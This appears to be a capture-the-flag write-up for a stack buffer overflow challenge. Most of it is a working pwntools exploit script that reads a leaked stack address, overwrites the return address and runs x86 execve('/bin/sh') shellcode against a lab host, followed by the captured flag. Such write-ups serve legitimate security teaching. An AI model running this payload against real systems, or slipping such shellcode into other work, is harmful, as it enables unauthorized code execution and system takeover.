 It is time to write your own shellcode!

192.168.210.11:10002

Recommend reading: Smashing The Stack For Fun And Profit

PS: ASLR is disabled

```
# -*- coding: utf-8 -*-
from pwn import *

# Io = process("shellcode")
Io = remote("192.168.210.11", 10002)

data = Io.read()
addr = int(data.split("at ")[1].split(". ")[0][2:], 16)
junk = "A" * 44
shellcode = "\x31\xc9\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
shellcode_addr = p32(addr + len(junk) + 4)
payload = junk + shellcode_addr + shellcode
Io.send(payload)

Io.interactive()
```

```
flag{smashing_the_stack_for_fun_and_profit_by_Aleph_One}
```